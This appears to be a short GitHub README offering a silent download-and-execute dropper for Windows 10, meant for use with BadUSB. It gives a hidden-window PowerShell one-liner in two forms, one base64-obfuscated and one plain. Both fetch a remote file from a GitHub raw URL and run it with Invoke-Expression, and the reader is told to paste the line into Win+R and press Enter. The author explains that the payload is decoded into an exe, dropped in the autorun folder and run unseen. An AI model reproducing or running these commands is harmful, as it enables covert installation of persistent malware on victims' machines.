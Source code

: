 DO THIS ON YOUR PC:

1) COPY THIS: 

```powershell.exe -windowstyle hidden Invoke-Expression([Text.Encoding]::Utf8.GetString([Convert]::FromBase64String('KEludm9rZS13ZWJyZXF1ZXN0IC1VUkkgImh0dHBzOi8vcmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbS9hbGV4LVgtMTIvQXRvbWl4LWZ1emUvbWFpbi9jbWQudHh0IikuQ29udGVudA==')))```

or: ```powershell.exe -windowstyle hidden Invoke-Expression(Invoke-webrequest -URI "https://raw.githubusercontent.com/alex-X-12/Atomix-fuze/main/cmd.txt").Content```

2) HOLD WIN+R
3) HOLD CTR+V
4) PRESS ENTER!


cuh

the acual idea of this thing is to download a file and run it sliently 
designed to work with badusb
os: win 10

file gets encoded into base64 format and then powershell downloads in and converts back to exe, puts into autorun folder and runs.
this operation takes a lot of time but it worked for me when i used this in my puposes

update: file in example does not work already (just info)
